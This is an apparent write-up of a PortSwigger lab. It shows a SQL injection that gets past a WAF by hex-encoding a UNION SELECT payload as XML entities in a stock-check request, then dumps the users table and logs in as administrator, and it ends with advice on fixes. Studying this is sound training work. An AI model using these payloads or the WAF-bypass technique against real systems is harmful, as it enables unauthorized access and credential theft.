



**Category:** SQL Injection  
**Difficulty:** Practitioner  
**Status:** ✅ Solved  
**Lab Link:** [PortSwigger Lab](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

---

## Objective

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

---

## Background

SQL injection with filter bypass via XML encoding is an advanced technique that exploits XML parsing to evade Web Application Firewalls (WAFs). This vulnerability occurs when an application processes XML input containing SQL queries, and a WAF attempts to block injection attempts. By encoding malicious payloads using XML entities (hexadecimal or decimal), attackers can bypass WAF filters that only inspect decoded content, allowing the SQL injection to reach the database after the XML parser decodes the entities.

---

## My Approach

### Step 1: Identify the Injection Point

The application uses a POST request to `/product/stock` with XML data. I identified the `<storeId>` parameter as a potential injection point:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

### Step 2: Test for SQL Injection

I tested basic injection by modifying the `storeId` value:

```xml
<storeId>1+1</storeId>
```

The response showed "542 units", confirming the XML is processed and the value is used in a database query.

### Step 3: Understand the WAF Bypass Requirement

When I attempted a direct UNION SELECT injection, the WAF blocked it. The application has security filters that detect and block common SQL injection patterns in the raw request.

### Step 4: Use XML Entity Encoding to Bypass WAF

I used **Burp Suite's Hackvertor** extension to encode the SQL injection payload using hexadecimal XML entities. This encoding technique:

- Converts special characters to their hex entity equivalents
- Bypasses WAF filters that don't decode entities before inspection
- Gets decoded by the XML parser before reaching the database

### Step 5: Craft the Encoded Payload

Using Hackvertor's `<@hex_entities>` tags, I encoded the UNION SELECT payload:

```xml
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users</@hex_entities></storeId>
```

Hackvertor automatically converted the payload to hexadecimal XML entities, which the WAF couldn't detect but the XML parser could decode.


### Step 6: Extract Credentials

The decoded payload executed successfully, returning usernames and passwords concatenated with `~`:

```
administrator~gyozwtgwo3bgvcalhpil
wiener~tim4k4rjwpsaooi111j
carlos~8iebtk02oa0azvsxtzu6
```

### Step 7: Log In as Administrator

I navigated to **My Account** and logged in with:
- **Username:** `administrator`
- **Password:** `gyozwtgwo3bgvcalhpil`

---

## Payload Used

### Basic Injection Test
```XML
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1+1</storeId>
</stockCheck>
```

### WAF-Bypassing UNION Attack (Hex-Encoded)
```XML
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users</@hex_entities></storeId>
</stockCheck>
```

**After Hackvertor Encoding:**
The `<@hex_entities>` tag converts each character to its hexadecimal XML entity equivalent:
- `1` → `&#x31;`
- ` ` (space) → `&#x20;`
- `U` → `&#x55;`
- `N` → `&#x4e;`
- etc.

**How it works:**
- `<@hex_entities>...</@hex_entities>` — Burp Hackvertor tag that encodes content as hexadecimal XML entities
- `1` — Closes the original numeric value in the query
- `UNION SELECT` — Appends a second query to extract data from another table
- `username || '~' || password` — Concatenates username and password with a separator (PostgreSQL/Oracle syntax)
- `FROM users` — Specifies the target table containing credentials

---

## Why It Worked

The application processes XML input and uses the `<storeId>` value in a SQL query without proper sanitization. A WAF is deployed to block SQL injection attempts, but it has a critical weakness: it inspects the raw request **before** XML entity decoding.

### Attack Breakdown

| Component | Purpose |
|-----------|---------|
| `<storeId>` | XML parameter that gets concatenated into a SQL query |
| `<@hex_entities>` | Burp Hackvertor tag that encodes payload as hexadecimal XML entities |
| `1` | Closes the original numeric value in the SQL query |
| `UNION SELECT username \|\| '~' \|\| password FROM users` | Extracts all usernames and passwords, concatenated into a single column |
| XML Entity Decoding | The XML parser decodes hex entities **after** WAF inspection, revealing the SQL injection |

### The WAF Bypass Mechanism

| Stage | What Happens |
|-------|-------------|
| **1. Request Sent** | Payload is hex-encoded: `UNION` → `&#x55;&#x4e;&#x49;&#x4f;&#x4e;` |
| **2. WAF Inspection** | WAF sees only hex entities, not the decoded SQL keywords → **BYPASSED** |
| **3. XML Parsing** | Application's XML parser decodes entities: `&#x55;&#x4e;...` → `UNION` |
| **4. SQL Execution** | Decoded SQL injection reaches the database → **SUCCESS** |

The attack succeeded because:

1. **XML parsing vulnerability** (XML input is used in SQL queries without sanitization)
2. **WAF weakness** (inspects raw input, not decoded XML entities)
3. **Entity decoding** (XML parser decodes hex entities after WAF inspection)
4. **UNION injection works** (2 columns compatible, string concatenation works)
5. **Results displayed** (stock check response shows query results)

### Why XML Entity Encoding Works

XML supports multiple character encoding methods:

| Encoding Type | Example (character "A") |
|--------------|------------------------|
| **Plain text** | `A` |
| **Decimal entity** | `&#65;` |
| **Hexadecimal entity** | `&#x41;` |

All three are **equivalent** to the XML parser, but only the plain text is detected by naive WAFs. This is why encoding bypasses work.

---

## How to Fix It

### Primary Defense: Parameterized Queries

The only reliable defense is to **use parameterized queries (prepared statements)**. This ensures user input is treated as data, not executable code—even after XML parsing.

See [Lab 1: SQL Injection Fundamentals](1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md) for language-specific examples.

### Additional Recommendations

| Defense | Description |
|---------|-------------|
| **Parameterized Queries** | Always use placeholders instead of concatenating XML values into SQL queries |
| **WAF Configuration** | Configure WAF to decode XML entities **before** inspection, or block requests with encoded entities |
| **Input Validation** | Validate XML input strictly—reject unexpected characters or patterns |
| **XML Schema Validation** | Use XSD schemas to enforce strict data types (e.g., `<storeId>` must be integer only) |
| **Disable Entity Expansion** | Prevent XXE attacks by disabling external entity processing |
| **Defense in Depth** | Combine multiple layers: parameterized queries + WAF + input validation |

---

## Key Takeaway

> XML entity encoding is a powerful WAF bypass technique because it exploits the gap between **WAF inspection** (raw input) and **XML parsing** (decoded entities). By encoding SQL injection payloads as hexadecimal or decimal XML entities, attackers can evade filters that don't decode before inspection. This lab demonstrates why **defense in depth** is critical: WAFs alone are insufficient. The only reliable defense is **parameterized queries** combined with strict input validation and proper WAF configuration that decodes entities before filtering.
